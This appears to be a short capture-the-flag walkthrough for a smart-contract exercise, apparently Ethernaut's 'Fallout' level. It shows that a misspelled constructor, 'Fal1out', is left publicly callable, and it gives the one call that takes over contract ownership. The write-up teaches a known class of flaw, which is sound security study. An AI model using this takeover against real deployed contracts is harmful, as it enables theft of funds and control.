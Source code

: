 # Take over ownership of the contract

The only method to switch ownership of contract is inside constructor `Fallout`. 

However the function intended to be constructor has typo:
```
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
  ```

  `Fal1out` has now becomes a public callable function

  We proceed to call the function to take over contract:
  ```
  contract.Fal1out()
  ```

  Verify owner:
  ```
  contract.owner()
  // Output: player address
  ```
